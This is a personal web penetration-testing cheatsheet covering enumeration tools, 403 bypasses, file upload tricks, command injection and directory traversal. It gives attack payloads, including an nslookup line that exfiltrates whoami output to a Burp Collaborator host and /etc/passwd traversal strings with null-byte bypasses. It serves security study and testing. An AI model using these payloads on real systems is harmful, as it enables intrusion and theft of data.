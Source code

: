 
# Methodology // Exploitation Cheatsheet

<details>
  <summary>Enumeration</summary>
  <br>
  
  ## Content discovery
  
   - What is the server running on?
   - Type of underlysing software? 
   - Versions?
  
  ## Vulnerability scanning
  
   - Nikto 

  
  [Visual site mapper](http://www.visualsitemapper.com/)
  
  Wappalyzer extension for server/web app details
  
  ## Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Directory discovery
  
  - dirbuster

 Wordlists
 
    /usr/share/wordlists/dirb/
    /usr/share/wordlists/dirbuster/



</details>

<details>
<summary>Learning the application</summary>
  While running Burp, run through the site.
  How is everything handled? (pages, files, auth)
  What is the application for? (Photo storage, blog, store)
  
</details>


<details>
  <summary>Possible bug leads</summary>
  <br>
  
  **Check Burps passive scanner to see if anything sticks out.**
  
  **Login page**
    Injection possible?
    Type of DB?
  
  **User input/ input that stays on page**
  
  **Cookies**
  
  **Ability to upload files**
  
  **URL tells**
  
  **40X unauthorized pages**
    Verb tampering
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>403 restrictions bypass</summary>
  <br>
   
   Try other HTTP methods
   
   Try headers:
   
     X-Original-URL: <path>
     
     X-Rewrite-URL: <path>
   
</details>


<details>
  <summary>XSS</summary>
  <br>
  Cheatsheet:
   
   [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

</details>

<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## change extension
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
    
   ## Editing upload request 
   
   
 
  
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
    
    
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>

<details>
  <summary>[SQLi](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Web/SQL%20Injection.md)</summary>
  <br>
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSET
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   Example:
   
    <verb> <* or column> FROM <Table name> <Term / Condition>  
   
</details>


<details>
  <summary></summary>
  <br>
</details>
